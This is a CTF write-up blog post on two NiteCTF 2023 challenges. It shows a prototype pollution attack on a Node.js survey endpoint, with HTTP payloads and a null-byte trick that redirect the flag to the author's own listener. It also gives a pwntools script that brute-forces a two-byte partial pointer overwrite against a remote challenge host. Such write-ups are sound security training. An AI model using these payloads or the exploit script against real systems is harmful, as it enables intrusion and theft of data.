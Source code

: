 ```yaml
---
layout: post
title: NiteCTF 2023 Challenges
author: m0z
categories: [Jeopardy]
tags: [ctf,web,pwn,prototype pollution]
---
```


## Writeups
These are two challenges which I found interesting from NiteCTF. Just 1x pwn and 1x web.

## web/Mini Survey
Downloading the source, we see this is a Javascript challenge immediately observing some unusual practices:

```javascript
surveyOneInitialData[fieldInput1] = { [fieldInput2]:  fieldInput3 };
```
Placing user input into square bracket notation such as the above can lead to Prototype Pollution in objects. Judging by the fact that this endpoint is named `PollutionSurvey` and the various `Object` operations occuring we can probably assume this challenge will entail some Prototype Pollution.

```javascript
app.post("/pollutionsurvey", (req, res) => {
	let  fieldInput1  =  req.body.name;
	let  fieldInput2  =  req.body.city;
	let  fieldInput3  =  req.body.pollutionRate;
	surveyOneInitialData[fieldInput1] = { [fieldInput2]:  fieldInput3 };
	surveyOneInitialData  =  updateDBs(surveyOneInitialData, {
		Name: { City:  "Rating" },
	});
	res.redirect("/thankyou");
});
```

This is the full endpoint. We may pollute the object however we wish and it will be passed into an `updateDBs()` function call. This function is defined below.

```javascript
function updateDBs(dataObj, original) {
	let  commData = Object.create(dataObj);
	commData["flag"] = "nite{FAKE_FAKE_FAKE_FLAG}";
	commData["log"] = "new entry added";
	sendData(commData);
	return original;
}
```
So it is going to instantiate an Object using `Object.create(dataObj)` where `dataObj` is our polluted Object instance. It will then append the flag to the data object and pass this new data object to the `sendData()` function.

```javascript
function sendData(data) {
    const postData = JSON.stringify(data);

    if (data.host != undefined) {
        backupServerHost = data.host;
    }

    if (data.port != undefined) {
        backupServerPort = data.port;
    }

    const options = {
        host: backupServerHost || "localhost",
        port: backupServerPort || "8888",
    };

    if (
        typeof options.host === "string" &&
        options.host.endsWith(".ngrok.io")
    ) {
        const socket = net.connect(options, () => {
            socket.write(postData);
            socket.end();
        });

        socket.on("error", (err) => {
            console.error("Error", err.message);
        });
    }
}
```

There's quite a bit to unpack here. We may define a `data.host` or a `data.port` which will update the `backupServerHost` and `backupServerPort` variables respectively.

Our `host` must be of type `string` and end with `.ngrok.io` which hints towards us using the ngrok service to retrieve the flag. From here, the attack should be a bit more obvious.

Back to the endpoint, particularly the line containing `surveyOneInitialData[fieldInput1] = { [fieldInput2]:  fieldInput3 };`. We will need to define `fieldInput1` as `__proto__` to pollute the prototype. We will then define `fieldInput2` as `host` and `fieldInput3` as our ngrok URL. The default port will be `8888`.

However, we may also pollute the port separately. Because these are globalized variables they will be set to whatever value they were last polluted to.

I am not a fan of the ngrok service. There are many issues with using it for this challenge (specifying ports, requiring user confirmation before accepting requests, etc). As such, I tried to bypass this using a nullbyte. We can pass our host as `myhost.com%00.ngrok.io` and it will send the data to `myhost.com` due to the nullbyte termination. This was unintended but certainly useful.

So I opened up a reverse shell connection using `nc -lvnp 1337` and then sent a request to the website to pollute the port variable to `1337`:

```http
name=__proto__&city=port&pollutionRate=1337
```
After this, I simply polluted the host variable to send it to my IP address `1.3.3.7` to collect.
```http
name=__proto__&city=host&pollutionRate=1.3.3.7%00.ngrok.io
```
Then we get the flag!

`nite{pr0t0_p0llut3d_116a4601b79d6b8f}`

## pwn/The road not taken
This was a pretty fun binary exploitation challenge. Running `checksec` we see that there is no canary and Partial RELRO but PIE and NX are both enabled.

Opening in Ghidra we can get an idea of what it's doing.

```c
void main(void)

{
  undefined buf [520];
  code *wrongdirection;
  
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  wrongdirection = ::wrongdirection;
  puts("Can you please lead me to the right direction to get to the flag?");
  read(0,buf,522);
  (*wrongdirection)();
  return;
}
```

So it's instantiating a stack variable containing a pointer to a function which it later calls. This is always pretty dangerous as stack variables can be a lot more susceptible to buffer overflow attacks. We can see the buffer in this case is 520 bytes but the call to `read()` allows us to write 522 bytes to the stack. This is a 2 byte overflow.

Given that PIE is enabled, it would be unrealistic for us to overflow to anything useful (given the address randomization). As such, it became obvious that we would be using this two byte overflow to partially modify the pointer address by changing the last 2 bytes to point to something more useful.

We can see the functions below.

```javascript
0x0000000000001000  _init
0x0000000000001030  puts@plt
0x0000000000001040  setbuf@plt
0x0000000000001050  read@plt
0x0000000000001060  _start
0x0000000000001159  rightdirection
0x000000000000117e  wrongdirection
0x0000000000001194  main
0x0000000000001208  _fini
```

It's pretty clear that we need to overflow to the `rightdirection` function. From running the binary and analyzing with `pwndbg` I noticed that PIE was randomizing the addresses each run but the last byte remained the same. Since we can overflow the last 2 bytes, we know we will want to overflow a `\x59` to correspond to `rightdirection` but we don't know the correct byte preceding this.

However, there's only 256 possible bytes so we can just brute force this. My script is below.

```python
from pwn import *
local = False

context.log_level = 'error'

for i in range(256):
        if local:
            p = process('./the_road_not_taken1')
        else:
            p = remote('34.100.142.216', 1337)

        print(p.recv())
        payload = b"A"*520
        payload += "Y".encode() + chr(i).encode()
        try:
            p.sendline(payload)
            print(p.recvuntil(b"}"))
            break
        except EOFError:
            pass

```
When running it, we eventually get our flag.
`nite{R0b3rT_fro5t_ftw_32dx5hp}`
